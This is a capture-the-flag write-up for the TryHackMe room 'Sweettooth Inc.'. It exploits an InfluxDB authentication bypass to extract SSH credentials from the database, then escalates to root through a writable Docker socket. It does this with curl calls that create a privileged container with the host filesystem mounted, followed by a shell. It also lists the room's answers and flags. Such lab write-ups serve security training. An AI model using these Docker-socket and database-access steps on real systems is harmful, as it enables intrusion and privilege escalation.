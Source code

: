 ```yaml
---
title: Sweettooth Inc.
layout: post
author: Bit Criminals Team
date: 2021-07-25 20:00:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/sweettoothinc
---
```



On enumerating we get the following three open ports.

![](/images/leo/nmap.png)  
 
```
Do a TCP portscan. What is the name of the database software running on one of these ports?
influxdb
```

On looking for influxdb vulnerbilities I found this resource <https://github.com/c-sh0/security/blob/master/influxdb.txt>

Using the url <10.10.127.163:8086/debug/requests>

![](/images/leo/user1.png)

```
What is the database user you find?
o5yY6yya
```

We can get access to the database following the above resource but I found this script 
<https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933>

Running the script 

![](/images/leo/script.png)

Also found this very helpful cheatsheet for influxdb <https://gist.github.com/tomazursic/6cc217e2644c619ceceefb8ce824925b>

Filling in the database as ``` tanks ```

Using the query as ``` SHOW MEASUREMENTS ```

![](/images/leo/tanks.png)

Then using the query ``` SELECT * FROM water_tank ```
Gives us the temperatures of water tank at diffrent time

Using <https://www.epochconverter.com/> to convert the timestamp to human readable date time format 

![](/images/leo/epoch.png)

```
What was the temperature of the water tank at 1621346400 (UTC Unix Timestamp)?
22.5
```
Now we use exit to change our database and fill in ``` mixer ```

Using the query ``` SHOW MEASUREMENTS ```

![](/images/leo/mixer.png)

Then using the query as ``` SELECT * FROM mixer_stats ```
Gives us the motor rpm at different time 
Looking through them we find the highest rpm 

```
What is the highest rpm the motor of the mixer reached?
4875
```

Again we change the database to ``` creds ```
Using the query ``` SHOW MEASUREMENTS ``` 

![](/images/leo/creds.png)

Then using the query as ``` SELECT * FROM ssh ```

![](/images/leo/ssh.png)

```
What username do you find in one of the databases?
uzJk6Ry98d8C
```

Now that we have the username and password we can ssh into the machine

```
ssh uzJk6Ry98d8C@10.10.127.163 -p 8086
```

Now we can read the user.txt

```
user.txt
THM{V4w4FhBmtp4RFDti}
```

Running linpeas tells us that we ```write permission over docker socket /run/docker.sock```
But we cannot use the docker command 

We find this resource <https://securityboulevard.com/2019/02/abusing-docker-api-socket/>

Basically we are going to create a container on the Nginx and then gain root access through it.

Using the command 
``` curl –insecure -X POST -H "Content-Type: application/json" http://127.0.0.1:2376/containers/create?name=test -d '{"Image":"sweettoothinc", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}' ```

Returns the id of our container
```
"Id":"39d4cf768ec3fae31a9af685cefcba1244a351acb88841a5c822e7bceb4009d3","Warnings":null
```

Now we start the container using the command
```
curl –insecure -X POST -H "Content-Type: application/json" http://127.0.0.1:2376/containers/39d4cf768ec3fae31a9af685cefcba1244a351acb88841a5c822e7bceb4009d3/start?name=test
```

We gain root shell using the command
```
docker -H 127.0.0.1:2376 exec -it 39d4cf768ec3 /bin/bash
```

And voila we are root now

```
root@39d4cf768ec3:/# whoami
root
root@39d4cf768ec3:/# cd /root
root@39d4cf768ec3:/root# ls
root.txt
root@39d4cf768ec3:/root# cat root.txt
```
```
/root/root.txt
THM{5qsDivHdCi2oabwp}
```

Looking into the /mnt directory we find another root directory

```
root@39d4cf768ec3:/mnt/var/lib/docker# cd /mnt
root@39d4cf768ec3:/mnt# ls
bin   etc         initrd.img.old  lost+found  opt   run   sys  var
boot  home        lib             media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64           mnt         root  srv   usr  vmlinuz.old
root@39d4cf768ec3:/mnt# cd root
root@39d4cf768ec3:/mnt/root# ls
root.txt
root@39d4cf768ec3:/mnt/root# cat root.txt
```

```
The second /root/root.txt
THM{nY2ZahyFABAmjrnx}
```



